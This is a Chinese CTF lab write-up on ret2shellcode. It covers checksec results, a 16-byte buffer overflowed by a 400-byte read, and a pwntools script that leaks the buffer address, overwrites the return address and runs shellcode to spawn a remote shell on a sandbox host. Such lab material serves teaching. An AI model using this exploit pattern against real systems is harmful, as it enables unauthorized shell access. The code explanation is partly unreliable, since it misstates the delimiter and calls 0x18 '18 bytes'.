



# ret2shellcode
ret2shellcode是指攻击者需要自己将调用shell的机器码（也称shellcode）注入至内存中，
随后利用栈溢出复写return_address，进而使程序跳转至shellcode所在内存
简单地说——栈溢出+执行shellcode
## 过程
首先使用checksec查看其防护措施与基本信息
```bash
checksec --file=pwn --output=json | jq
```
结果如下

- relro: "partial" 只做了部分只读重定位保护，防护较弱
- canary: "no" 没有栈保护，攻击者可以直接覆盖返回地址
- nx: "no" 没有开启NX保护，可以在栈上执行代码
- pie: "no" 没有开启PIE，地址是固定的
- rpath: "no" 没有开启rpath，无动态库路径风险
- runpath: "no" 没有开启runpath，无动态库路径风险
- symbols: "yes" 符号表存在
- fortify_source: "no" 没有开启源码加固
- fortified:"0" 没有被加固的函数
- "fortified_able":"2" 有2个函数可以被加固
## 发现注入点

buf是16字节，但是read函数读取了400字节
注入
## 代码如下
```python
from pwn import *

context.arch = 'amd64'  # 64位程序
p = remote('challenge-5e1961ab030988ef.sandbox.ctfhub.com', 38167)  # 替换为实际目标

# 1. 获取泄露的 buf 地址
p.recvuntil(b"[")
buf_addr = int(p.recvuntil(b"]", drop=True), 16)
log.success(f"buf address: {hex(buf_addr)}")

# 2. 生成 Shellcode（调用 execve("/bin/sh")）
shellcode = asm(shellcraft.sh())
shellcode_addr=buf_addr + 32  # shellcode  buf和rbp的偏移量是16+rbp的偏移量8+返回地址8=32

# 3. 构造 Payload
payload = b'a'*0x18+p64(shellcode_addr)+shellcode
# 4. 发送 Payload
p.send(payload)
p.interactive()  # 获取交互式 shell
```
## 代码解释
1. p.recvuntil(b"[")
- 从程序输出中读取数据，直到遇到字符 ]
2. buf_addr = int(p.recvuntil(b"]", drop=True), 16)
- 读取 buf 地址，buf_addr 是泄露的 buf 地址
3. shellcode = asm(shellcraft.sh())
- 生成 Shellcode，调用 execve("/bin/sh")
4. shellcode_addr=buf_addr + 32
- 计算 shellcode 的地址，buf 和 rbp 的偏移量是 16 + rbp 的偏移量 8 + 返回地址 8 = 32字节
5. payload = b'a'*0x18+p64(shellcode_addr)+shellcode
- 构造 Payload，填充 18 字节的 a，然后是 shellcode 的地址，最后是 shellcode
## 结果如下
